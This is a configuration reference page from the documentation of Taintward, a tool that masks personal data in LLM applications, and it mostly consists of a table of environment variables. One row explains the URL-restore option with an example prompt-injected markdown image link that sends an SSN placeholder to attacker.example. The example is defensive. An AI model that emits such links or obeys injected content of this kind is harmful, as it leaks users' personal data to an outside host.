

repository: DCchoudhury15/Taintward · page: reference/configuration/index.html · generator: mkdocs · copyright: Apache-2.0

# Configuration and environment variables

Taintward is configured in four places:

1. environment variables (this page), read by the SDK, the gateway, the
   evidence tools and the collector image;
2. `tw.init()` arguments in your code (below, and
   [SDK integrations](../integrations.md));
3. the gateway YAML file ([MCP gateway, Config reference](../mcp-gateway.md#config-reference));
4. the collector YAML and the Helm values ([Policy collector](../guides/collector.md),
   [Kubernetes and Helm, Main values](../deploy-kubernetes.md#main-values)).

## Environment variables

**On/off values.** Variables marked "flag" accept `1`, `true`, `yes`, `on`
and `0`, `false`, `no`, `off` (any case). Unset or empty gives the default.
Any other value also gives the default and logs a warning, so a typo never
turns a safety setting off. `TAINTWARD_ALLOW_DEMO_KEY` is the exception: it
is on only for the exact value `1`.

**When they are read.** SDK flags (`TAINTWARD_DRY_RUN`,
`TAINTWARD_MASK_IN_SDK`, `TAINTWARD_FAIL_CLOSED`) and the detection settings
are read once, when the module is first imported. Set them in the process
environment before the process starts, not with `os.environ` from code that
runs after `import taintward`.

### SDK: enforcement

| variable | type | default | meaning | read in |
|---|---|---|---|---|
| `TAINTWARD_DRY_RUN` | flag | off | audit mode for the SDK: violations are recorded (`taintward.dry_run=true`) but sinks get the raw input, including the LLM. Spans are still masked. See [Audit mode first, then enforce](../recipes/audit-then-enforce.md) | `taintward/sdk/instrumentation.py` |
| `TAINTWARD_MASK_IN_SDK` | flag | on | mask tool input stored on spans inside the process. Turn off only when a trusted sidecar collector on the same host does the masking. Tool output is masked in the process either way, because the collector only knows regex types | `taintward/sdk/instrumentation.py` |
| `TAINTWARD_RESTORE_IN_URLS` | flag | off | also restore placeholders inside link and image addresses in the model's answer. Off, an injected `![x](https://attacker.example/?d=<SSN_1>)` keeps the placeholder. Same as `Ward(placeholder_restore_in_urls=True)` and the TypeScript `restoreInUrls` option. Read on each new placeholder map | `taintward/sdk/placeholders.py` |
| `TAINTWARD_FAIL_CLOSED` | flag | off | refuse calls to `external`, `llm`, `log` and `rag` sinks while detection is degraded (spaCy or Presidio failed to load). The SDK raises `DetectionDegradedError`; the gateway returns an MCP error | `taintward/sdk/instrumentation.py`, `taintward/gateway/server.py` |
